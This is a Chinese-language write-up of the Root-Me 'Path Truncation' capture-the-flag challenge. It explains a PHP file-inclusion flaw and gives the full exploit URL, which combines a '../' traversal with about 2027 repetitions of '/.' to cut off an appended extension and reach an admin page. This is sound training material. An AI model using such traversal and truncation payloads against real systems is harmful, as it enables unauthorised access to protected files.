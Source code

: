 Root-Me [Path Truncation](https://www.root-me.org/en/Challenges/Web-Server/Path-Truncation)
===

簡單的頁面，但有兩個籤頁 `Home`、`Administration`。(?

## 解題關鍵
1. Path Truncation
2. PHP

## 提示訊息
```
Retrieve an access to the administration’s zone.
```

## 解題方法
在更換籤頁時，可以確認除了 `Administration` 頁面，有權限讀取的頁面僅有 `Home`，並且該頁面的運作方式為 `GET ?page=home`，所以光想就知道應該又是 `include(${input} . php)` 之類的題型，但該題的題目是 `Path Truncation`，直接想說試試看 `%00`，卻出現 `Attack Detected`。  

接著試著看 Rootme 其他參與者提供的[文件](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html)，其中看到很關鍵的一行，如下。

```SHELL
$ strace -e open php -r 'include("a/../../../../tmp/teest".str_repeat("/.", 2027)."/.append.inc");' 2>&1 | grep "^open(\"/tmp"
open("/tmp/teest", O_RDONLY)            = 3
(it works, bingo!)
```

其中可以看到 `str_repeat("/.", 2027)`，由於 `/.` 實際上就是指當前目錄，執行起來並沒有意義，扣除掉 `/.` 的部分指向的檔案是 `a/../../../../tmp/teest`，也許透過塞大量的 `/.` 可以讓暫存爆炸之類的，然後截斷後方的 `.append.inc`，所以嘗試製造 Payload。  

首先輸入大概分成三個部分 `a`、`Target`、`Buffer`，a 填什麼都無所謂，隨後會被 Target 的 `../` 帶到上層目錄，而 `Buffer` 簡單的說就是主題的 `Truncation`，作為截斷的部分。  

嘗試構造成 `a/../admin.html` + `/.` * 2027，其實若問我為什麼是 2027，我答不出來...，只是參考文件上的方法。  

```
http://challenge01.root-me.org/web-serveur/ch35/index.php?page=a/../admin.html/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././.
```

解決該題。  

![](img/01.png)  

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html  


## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)